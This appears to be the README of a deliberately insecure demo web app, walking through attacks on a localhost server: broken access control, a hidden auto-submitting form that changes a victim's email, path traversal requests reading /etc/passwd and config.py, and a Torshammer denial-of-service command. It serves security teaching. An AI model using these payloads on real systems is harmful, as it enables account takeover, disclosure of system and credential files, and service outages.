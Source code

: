 # Insecure Application

## 1 Broken access control and priviledge escalation due to improper authorization:
1. Attacker finds the admin login page using bruteforce.
Attacker has a list of popular API endpoints.
2. Attacker logs in as a normal user and tries to access admin page. Due to improper authorization, attacker is granted access.


## 2 Session Hijacking 
Creating a hidden form that exploits the API that updates the user profile. Attacker places the form in the blog's content; whenever a user clicks on the button, its email is changed. Later attacker can use the forgot password feature to change the password.

```
<style>
    .hide { position:absolute; top:-1px; left:-1px; width:1px; height:1px; }
</style>
  
<iframe name="hiddenFrame" class="hide"></iframe>
  
<form action="/user/update" method="post" target="hiddenFrame">
    <input type="text" name="email" id="update-email" value="srtkrwt@gmail.com" style="display: none;"><br>
    <button type="submit" id="signup-button">Check out this video!!</button>
</form>
```

## 3 Sensitive data access
All the profile pictures are stored on the server. The webpage sends a POST request to fetch the picture. The attacker exploits this. He can send mallicious file name in the request, like "../../../../../../../ect/passwd" or "../../config.py" 



```
This will return  profile picture of user="user001"

POST http://127.0.0.1:5000/profile_picture
Content-Type: application/json

{
    "picture_name": "user001"
}

###
This will return etc/passwd file 

POST http://127.0.0.1:5000/profile_picture
Content-Type: application/json

{
    "picture_name": "../../../../../../../../../etc/passwd"
}

###
This will return config.py file of the application.

POST http://127.0.0.1:5000/profile_picture
Content-Type: application/json

{
    "picture_name": "../../config.py"
}
```

## 4 Denial Of Service attack
Attacker can DOS the server, this makes the services unavailable the the normal users.
We used Torshammer to perform the DOS attack.<br>
`python2 torshammer.py -t 127.0.0.1 -p 5000` 